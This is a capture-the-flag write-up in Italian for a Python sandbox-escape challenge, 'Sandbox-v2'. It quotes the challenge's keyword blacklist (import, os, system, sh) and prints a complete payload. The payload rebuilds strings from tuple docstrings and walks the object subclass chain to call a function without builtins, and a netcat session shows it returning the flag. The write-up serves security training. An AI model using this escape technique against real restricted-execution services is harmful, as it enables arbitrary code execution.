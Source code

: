 # Sandbox-v2.py
![challenge](challenge.png)
### Challenge:
##### Se per qualche motivo sei riuscito ad evadere la sandbox precedente, sicuramente non riuscirai con questa, stavolta non hai nemmeno i builtins di python!.

##### Puoi collegarti al servizio remoto con:
##### ```nc sandbox_v2.challs.olicyber.it 35004```

##### Files: [sandbox-v2.py](sandbox-v2.py)

### Solution:
Challenge simile alla precedente, blacklist estesa ed abbiamo solo help come builtin:

```python
# just safe builtins
safe_builtins = {
	'help': help,
}
locals = {'__builtins__': safe_builtins}

blacklist = ['import', 'os', 'system', 'subproces', 'sh', 'flag', '"', '\'',]
```
Risolto questa challenge 10 minuti dopo la fine del mirror :(

```py
>>> ().__doc__
"Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object."
>>> ().__doc__[1]
'u'
```

Concateniamo le varie lettere di ```().__doc__``` per bypassare la blacklist sulle stringhe.
Invece per bypassare il non avere builtins facciamo [stregoneria nera](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes).

Payload finale:
```py
(1).__class__.__base__.__subclasses__()[137].__init__.__globals__[(1).__class__.__base__.__subclasses__()[38]((1).__class__.__base__.__subclasses__()[137].__init__.__globals__.keys())[47]](().__doc__[113]+().__doc__[188]+().__doc__[197]+().__doc__[196]+().__doc__[170]+().__doc__[193]+().__doc__[188]+().__doc__[178])
```

```bash
$ nc sandbox_v2.challs.olicyber.it 35004
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
(RestrictedConsole)
>>> (1).__class__.__base__.__subclasses__()[137].__init__.__globals__[(1).__class__.__base__.__subclasses__()[38]((1).__class__.__base__.__subclasses__()[137].__init__.__globals__.keys())[47]](().__doc__[113]+().__doc__[188]+().__doc__[197]+().__doc__[196]+().__doc__[170]+().__doc__[193]+().__doc__[188]+().__doc__[178])
flag{Up_4nd_d0wn_the_1nheri7anc3_ch41n!!}
```

Flag: ```flag{Up_4nd_d0wn_the_1nheri7anc3_ch41n!!}```
